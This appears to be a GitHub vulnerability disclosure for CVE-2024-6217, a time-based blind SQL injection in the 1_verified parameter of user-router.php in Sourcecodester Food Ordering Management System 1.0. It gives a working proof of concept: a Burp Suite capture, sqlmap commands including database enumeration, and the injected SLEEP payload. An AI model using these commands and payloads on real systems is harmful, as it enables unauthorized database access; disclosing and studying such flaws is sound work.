 
# SQL Injection vulnerability was discovered from Sourcecodester Food Ordering Management System 1.0 (user-router.php)
## CVE-2024-6217
Affected Project: Sourcecodester Food Ordering Management System 1.0
Official Website: https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html
Version: 1.0

Related Code file: user-router.php

Injection parameter: 1_verified


## Vulnerability Analysis

1. Lack of Input Validation and Sanitization:
The '1_verified' parameter fields are directly used in the SQL query without any sanitization or validation. This allows an attacker to manipulate the SQL query by injecting malicious SQL code.

2. Use of Plain SQL Queries:
The script likely uses plain SQL queries to interact with the database. Without prepared statements, this approach is highly vulnerable to SQL injection.

## Demonstraation

Below is the users.php. By clicking on "Modify", we can access user-router.php:

`http://172.16.76.1/foms/users.php`

![image](https://github.com/jadu101/CVE/assets/76433661/a007fd00-1573-4c4f-92f0-01cc212c2253)

We will first intercept the traffic using Burp Suite:

![image](https://github.com/jadu101/CVE/assets/76433661/e3a06a90-6829-4821-be84-376f1e8853a6)

Save the intercepted request to a .txt file and execute sqlmap towards it. 

parameter 1_verified is vulnerable to time-based blind sql injection

Below commands verifies the vulnerability:

`sqlmap -r foms_user_router.txt --batch`

![image](https://github.com/jadu101/CVE/assets/76433661/c819e930-cc89-443a-a411-1564c81a6c98)

```
---
Parameter: 1_verified (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: 1_role=Administrator&1_verified=1' AND (SELECT 7078 FROM (SELECT(SLEEP(5)))GiGD) AND 'QLkI'='QLkI&1_deleted=0&1_balance=2000&4_role=Customer&4_verified=1&4_deleted=0&4_balance=1224&5_role=Customer&5_verified=0&5_deleted=0&5_balance=2000&6_role=Customer&6_verified=0&6_deleted=0&6_balance=2000&75_role=Customer&75_verified=0&75_deleted=0&75_balance=2001&action=
---
```

Below commnd will list databases:

`sqlmap -r foms_user_router.txt --batch --dbs`

![image](https://github.com/jadu101/CVE/assets/76433661/41fda954-8efa-4597-a3ff-399f75db7585)
